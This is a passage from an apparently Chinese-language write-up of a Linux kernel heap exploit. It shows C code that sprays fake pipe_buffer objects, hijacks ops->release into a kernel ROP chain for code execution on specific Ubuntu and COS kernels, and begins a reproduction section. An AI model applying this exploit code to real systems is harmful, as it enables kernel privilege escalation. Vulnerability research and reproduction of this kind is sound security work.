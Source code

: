 ```

  printf("\n");
```

### **2.5 控制程序执行流程**

此时skb与pipe_buffer占据同一块内存空间，重新构造skb，劫持pipe_buffer-&gt;ops至本内存空间，伪造pipe_buffer-&gt;ops-&gt;release，为第一个ROPgadget地址，实现执行流程控制

```
printf("[+] STAGE 4: Kernel code execution\n");

printf("[*] Spraying fake pipe_buffer objects...\n");
memset(secondary_buf, 0, sizeof(secondary_buf));
buf = (struct pipe_buffer *)&amp;secondary_buf;
buf-&gt;ops = kheap_addr + 0x290;
ops = (struct pipe_buf_operations *)&amp;secondary_buf[0x290];
#ifdef KERNEL_COS_5_4_89
// RAX points to &amp;buf-&gt;ops.
// RCX points to &amp;buf.
ops-&gt;release = kbase_addr + PUSH_RAX_JMP_QWORD_PTR_RCX;
#elif KERNEL_UBUNTU_5_8_0_48
// RSI points to &amp;buf.
ops-&gt;release = kbase_addr + PUSH_RSI_JMP_QWORD_PTR_RSI_39;
#endif
build_krop(secondary_buf, kbase_addr, kheap_addr + 0x2B0);
if (spray_skbuff(ss, secondary_buf, sizeof(secondary_buf)) &lt; 0)
goto err_rmid;

// Trigger pipe_release().
printf("[*] Releasing pipe_buffer objects...\n");
for (int i = 0; i &lt; NUM_PIPEFDS; i++) `{`
if (close(pipefd[i][0]) &lt; 0) `{`
    perror("[-] close");
    goto err_rmid;
`}`
if (close(pipefd[i][1]) &lt; 0) `{`
    perror("[-] close");
    goto err_rmid;
`}`
`}`
```



## 三、漏洞复现

**系统环境**
- ubuntu 20.04
- kernel 5.8.0-48
### 3.1 更换系统内核为5.8.0-48-generic

